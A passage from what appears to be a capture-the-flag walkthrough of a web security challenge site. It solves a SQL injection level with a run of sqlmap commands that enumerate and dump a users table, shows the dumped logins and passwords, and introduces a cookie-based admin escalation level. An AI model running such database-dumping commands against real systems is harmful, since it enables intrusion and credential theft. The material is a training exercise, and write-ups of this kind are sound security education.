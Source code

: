 We are looking at a classic SQL Injection here, and the best tool for this task is `sqlmap`. To do this, we can right-click on the GET request and use `Copy to file` in Burp. You can then use the request with `sqlmap` like this:
```
$ sqlmap --threads=10 -r sqli.txt --dbs
$ sqlmap --threads=10 -r sqli.txt --tables -D testdb_2014_1
$ sqlmap --threads=10 -r sqli.txt --columns -T users -D testdb_2014_1
$ sqlmap --threads=10 -r sqli.txt --dump -T users -D testdb_2014_1

Database: testdb_2014_1                                                                      
Table: users
[3 entries]
+----+-------+-------------+
| id | login | password    |
+----+-------+-------------+
| 1  | john  | Password    |
| 2  | bob   | abc123      |
| 0  | admin | asdfasdf123 |
+----+-------+-------------+
```

And just like that, we solved another level.

---

## Level 5

- Url: https://safeweb.aec.cz/level5.php
- Task: _Log in as the admin user. Your user credentials are: guest/tajneheslo_
- Hint: _Cookies_

This level is another login form, but now we have guest access. The goal is to escalate permissions to the admin using Cookies. After successful authentication, we can observe that a server response sets a `login` cookie.

![ctf_05.png](/assets/img/2024/07/ctf_05.png)